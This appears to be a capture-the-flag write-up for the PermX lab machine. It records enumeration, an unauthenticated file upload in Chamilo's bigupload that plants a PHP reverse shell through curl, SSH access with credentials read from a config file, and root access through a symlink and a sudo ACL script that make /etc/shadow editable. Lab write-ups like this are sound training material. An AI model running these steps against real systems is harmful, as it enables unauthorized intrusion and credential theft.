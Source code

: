 **Ping**
![[Pasted image 20240708134243.png]]

Nmap Scans
```
mapit 10.10.11.23
```

Nmap Default Scan
![[Pasted image 20240708134345.png]]

Nmap Service and Script Scan
![[Pasted image 20240708134548.png]]

Nmap All Port Scan
![[Pasted image 20240708134600.png]]

Nmap Service and Script Scan for new Ports
![[Pasted image 20240708134628.png]]
![[Pasted image 20240708134643.png]]


Added permx.htb to my hosts file
![[Pasted image 20240708134833.png]]

On Port 80
![[Pasted image 20240708134901.png]]

MYSQL Enum
```
mysql -h 10.10.11.23 -u root -P 3307
```
![[Pasted image 20240708135337.png]]

Will enumerate Sub Domains
```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fw 18
```
![[Pasted image 20240708182238.png]]
So we have an another domain http://lms.permx.htb

Gobuster scan for lms
```
gobuster dir -u http://lms.permx.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster_lms.txt
```
![[Pasted image 20240708183107.png]]
On http://lms.permx.htb/robots.txt
![[Pasted image 20240708183048.png]]

After a lot of enumeration Found the website is vulnerable to bigupload https://starlabs.sg/advisories/23/23-4220/




Now Will Jump to Initial Foothold.....!

Will upload the revere shell file and trigger it to get a shell
```
curl -F 'bigUploadFile=@rev.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```
![[Pasted image 20240708191514.png]]

Got shell as www-data
![[Pasted image 20240708191611.png]]

Don't have perm to open user mtz directory 
![[Pasted image 20240708191656.png]]
Will check for any creds in config files

Found one on /var/www/chamilo/app/configuration.php/
![[Pasted image 20240708191826.png]]

Though we have db creds, there no useful Info in db, We have ssh and known user mtz
Will use the password to the user mtz

SSH session as mtz
```
ssh mtz@permx.htb
```
![[Pasted image 20240708192144.png]]
Got it.....!

User.txt
![[Pasted image 20240708193557.png]]

Will Jump to Privilege Escalation.....!

Will check our privileges
```
sudo -l
```
![[Pasted image 20240708192324.png]]
We can execute the file acl.sh as root without password, will check it permission

Permissions of acl.sh
```
ls -la /opt/acl.sh
```
![[Pasted image 20240708192450.png]]
We don't have write Permission, will check the script.

This code change the permissions of a file ACL, will Elevate our privileges to root using this Script.

First will create a symlink in your home directory that points to a /etc/shadow file
```
ln -s / pwned
```

Then change it permission
```
sudo /opt/acl.sh mtz rwx /home/mtz/pwned/etc/shadow
```

Changing the root password to pwned
```
openssl passwd pwned
```

Now we can edit the shadow file
![[Pasted image 20240708195043.png]]
I have changed root password, will switch to root now

**Root.txt**
```
su
```
![[Pasted image 20240708195203.png]]



Done with PermX....:)



